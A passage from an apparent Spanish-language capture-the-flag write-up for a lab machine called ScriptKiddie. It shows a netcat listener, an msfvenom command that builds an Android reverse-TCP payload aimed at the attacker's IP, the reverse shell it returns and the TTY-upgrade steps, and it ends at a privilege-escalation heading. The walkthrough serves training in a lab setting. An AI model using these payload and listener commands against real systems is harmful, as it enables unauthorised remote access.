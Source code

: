 Nos ponemos en `escucha` en `netcat`

```
# nc -nlvp 4444
```

`Creamos` un `payload`

```
# msfvenom -x shell.apk -p android/shell/reverse_tcp LHOST=10.10.16.23 LPORT=4444 -o /dev/null
```

`Subimos` el `payload` y pulsamos en `generate`

![](/assets/img/ScriptKiddie/image_2.png)

`Recibimos` la `shell`, una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.95.150] 49432
/bin/sh: 0: can't access tty; job control turned off
$ whoami
kid
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation
